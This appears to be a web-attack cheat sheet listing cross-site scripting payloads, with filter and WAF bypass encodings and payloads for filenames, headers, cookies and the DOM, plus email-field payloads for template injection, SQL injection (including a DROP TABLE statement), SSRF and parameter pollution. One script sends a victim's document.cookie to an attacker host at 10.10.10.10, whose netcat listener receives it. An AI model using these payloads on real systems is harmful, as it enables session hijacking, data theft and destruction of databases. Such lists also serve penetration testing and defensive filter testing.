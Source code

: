 # XSS

Cross-Site Scripting (XSS) useful payload list to know.

## Test Characters

```bash
"
;
<
>
```

## Generic

```bash
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

## Content Injection

In the example below, set up a NetCat listener on port 80 (**sudo nc -nlvp 80**). This listener will receive a connection on success.

```bash
<iframe src=http://10.10.10.10/report height="O" width="O"></iframe>
```

## Cookie Stealing

In the example below, set up a NetCat listener on port 80 sudo nc -nlvp 80. This listener will receive a connection on success.

```bash
<script>new Image().src="http://10.10.10.10/nothinghere.jpg?output="+document.cookie;</script>
```

## WAF Bypass

```bash
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

## XSS in Filename

```bash
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

## Host Header

```bash
"> <script>alert(1)</script>
```

## Chrome and Firefox

#### Standard

```bash
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

#### onclick

```bash
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

#### onmousover

```bash
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

#### onload

```bash
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

#### onerror

```bash
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

## DOM Based

```bash
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

## User-Agent

```bash
</SCript><svG/onLoad=alert(document.domain)>
```

## XSS in Cookie Header

```bash
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## Email recipient payloads

#### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

#### Template injection

```bash
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

#### SQL Injection

```bash
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

#### SSRF

```bash
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

#### Parameter pollution

```bash
victim&email=attacker@example.com
```

## References

- [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
